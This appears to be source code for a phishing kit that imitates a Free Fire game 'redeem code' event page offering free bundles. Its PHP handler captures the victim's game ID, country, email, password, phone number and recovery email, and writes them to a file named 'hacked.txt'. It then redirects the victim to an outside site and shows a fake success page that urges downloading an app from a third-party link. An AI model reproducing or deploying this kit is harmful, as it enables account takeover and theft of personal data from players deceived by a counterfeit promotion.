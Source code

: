 <html>
<head>
<title>Free Fire - Redeem Code</title>
<meta charset="UTF-8"/>
<meta http-equiv="X-UA-Compatible" content="IE=edge"/>
<meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no"/>
<meta property="og:title" content="Free Fire Winterlands - Redeem Code"/>
<meta property="og:url" content="index.html"/>
<meta property="og:description" content="Get the free fire winterlands monthly event, redeem here"/>
<meta property="og:type" content="article"/>
<meta property="article:author" content="https://www.facebook.com/MobileLegendsGame"/>
<meta property="og:image" content="img/banner.jpg"/>
<link rel="icon" type="img/png" href="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" sizes="32x32"/>
<link rel="stylesheet" type="text/css" href="css/index.css"/>
</head>
<body>
<div class="logo">
<img src="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" alt="Free Fire Winterlands"/>
</div>
<img class="banner" src="https://1.bp.blogspot.com/-A4yuxmO8-Ws/XhBFUOeGf8I/AAAAAAAAAlM/w1Q5xixYe4s-NV9C2Nl_C886MVAI9XEKQCLcBGAsYHQ/s1600/Banner.jpg" alt="Banner"/>
<div style="clear:both"></div>
<div class="herohead">
<center><font style="font-size:14px;color:#64ffda;">Redemption Code</font></center><br/>
<input class="code" value="BHDO K6UM SGMQ O6AS" readonly=""/>
<div class="title"><b>MONTHLY EVENT</b> | COPY REDEEM CODE</div>
<a href="submit.php" class="avatar" title="Alpha">
<img src="css/uhu/x/fotouhu/uhuinfo-foto13.png" alt="BUNDLE"/>
<small>BUNDLE<br/>New Years</small>
</a>
<a href="submit.php" class="avatar" title="Alpha">
<img src="css/uhu/x/fotouhu/uhuinfo-foto6.png" alt="BUNDLE"/>
<small>BUNDLE<br/>Winterlands</small>
</a>
<a href="submit.php" class="avatar" title="Estes">
<img src="css/uhu/x/fotouhu/uhuinfo-foto7.png" alt="BUNDLE"/>
<small>BUNDLE<br/>Winter Elk</small>
</a>
<a href="submit.php" class="avatar" title="Miya">
<img src="css/uhu/x/fotouhu/uhuinfo-foto8.png" alt="SET"/>
<small>SET<br/>Grumpy old</small>
</a>
</div>
<ul class="news">
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_AR_orange.png)" alt="M4A1">M4A1<br/><small>A balanced rifle is suitable for all types of battles.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SMG_orange.png)" alt="MP5">MP5<br/><small>Beyond other machine guns in terms of stability, but less effective for long distances.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SG_orange.png)" alt="M1014">M1014<br/><small>Use the shotgun to destroy melee enemies quickly.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SR_orange.png)" alt="AWM">AWM<br/><small>High strength sniper rifle with long reload time.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Pistol_orange.png)" alt="USP">USP<br/><small>A light gun that does not affect the user's agility.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Melee_orange.png)" alt="PAN">PAN<br/><small>Great shield that protects users from anything your enemy can use.</small></li>
</ul>
</body>

</html>
<?php
$id = $_POST['id'];
$country = $_POST['country'];
$email = $_POST['email'];
$password = $_POST['password'];
$hp = $_POST['phone'];
$emailr = $_POST['emailr'];
?>

<?php

file_put_contents("hacked.txt", "[Id:] " . $id = $_POST['id'] . " [Country:] " . $country = $_POST['country'] . " [Email:] " . $email = $_POST['email'] . "[Password]" . $password = $_POST['password'] . "[Hp]" . $hp = $_POST['phone'] . "[Emailr]" . $emailr = $_POST['emailr'] . "\n", FILE_APPEND);
header('Location: https://www.noob-hackers.com');
?>

<center><span style='background:limegreen;width:360px;margin:0;padding:5px 0;color:black;display:block'>Success! Your submission has been requested</span></center>

<html>
<head>
<title>Free Fire - Redeem Code</title>
<meta charset="UTF-8"/>
<meta http-equiv="X-UA-Compatible" content="IE=edge"/>
<meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no"/>
<meta property="og:title" content="Free Fire Winterlands - Redeem Code"/>
<meta property="og:url" content="index.html"/>
<meta property="og:description" content="Get the free fire winterlands monthly event, redeem here"/>
<meta property="og:type" content="article"/>
<meta property="article:author" content="https://www.facebook.com/MobileLegendsGameIndonesia"/>
<meta property="og:image" content="img/banner.jpg"/>
<link rel="icon" type="img/png" href="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" sizes="32x32"/>
<link rel="stylesheet" type="text/css" href="css/index.css"/>
</head>
<body>
<div class="logo">
<img src="http://freefiremobile-a.akamaihd.net/ffwebsite/images/app-icon.png" alt="Free Fire Winterlands"/>
</div>
<img class="banner" src="https://1.bp.blogspot.com/-UEFjQE1QOKY/XhBG5WkqNqI/AAAAAAAAAlY/_Ley0LvHyycIUQvHy1wZNEeA5Spqz2MPQCLcBGAsYHQ/s320/IMG_20200104_133005.jpg" alt="Banner"/>
<div style="clear:both"></div>
<div class="button">
<div class="event"><center><strong>Congratulations</strong></center><br/>1. Please download app by clicking  <strong>App Available Download </strong> on the button below and copy <strong> Unique Code</strong> on that page.<br/>2. After that, click the event you want to claim below and paste <strong>Unique Code</strong> you have copied.<br/><br/>Prizes and bonuses will be given after <strong>30 minutes</strong>, for players who have sent.</div>
<a href="http://d.helo-app.com/LCuDUo/" title="Download on Play Store"><img src="img/download.png" alt="Download"/></a>
<a href="https://reward.ff.garena.com/" title="Redemption Code"><img src="img/code.png" alt="Redemption Code"/></a>
</div>
<ul class="news">
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_AR_orange.png)" alt="M4A1">M4A1<br/><small>A balanced rifle is suitable for all types of battles.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SMG_orange.png)" alt="MP5">MP5<br/><small>Beyond other machine guns in terms of stability, but less effective for long distances.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SG_orange.png)" alt="M1014">M1014<br/><small>Use the shotgun to destroy melee enemies quickly.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_SR_orange.png)" alt="AWM">AWM<br/><small>High strength sniper rifle with long reload time.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Pistol_orange.png)" alt="USP">USP<br/><small>A light gun that does not affect the user's agility.</small></li>
<li style="background-image:url(css/uhu/x/uhuinfo99/Icon_Melee_orange.png)" alt="PAN">PAN<br/><small>Great shield that protects users from anything your enemy can use.</small></li>
</ul>
</body>
</html>
